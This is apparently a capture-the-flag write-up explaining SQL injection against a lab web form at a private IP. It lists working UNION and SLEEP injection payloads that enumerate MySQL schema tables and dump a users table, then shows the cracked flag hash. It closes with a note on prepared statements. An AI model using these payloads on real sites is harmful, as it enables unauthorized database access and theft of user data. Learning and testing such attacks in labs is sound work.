 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
* 1  AND 1 = SLEEP(2);--
* 1 UNION (SELECT 1,2 FROM dual );--
* 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
* 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

### One of these tables is users
> * Table : users
> * Colunm : user_id
> * Colunm : first_name
> * Colunm : last_name
> * Colunm : town
> * Colunm : country
> * Colunm : planet
> * Colunm : Commentaire
> * Colunm : countersign

 * And through a number of these commands we are able to retrieve out flag   
### Retrive flag
* 1 UNION (SELECT user_id, first_name FROM users);--
* 1 UNION (SELECT last_name, town FROM users);--
* 1 UNION (SELECT country, planet FROM users);--
* 1 UNION (SELECT Commentaire, countersign FROM users);--

* instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
* hash : 5ff9d0165b4f92b14994e5c685cdce28

* flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

## Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc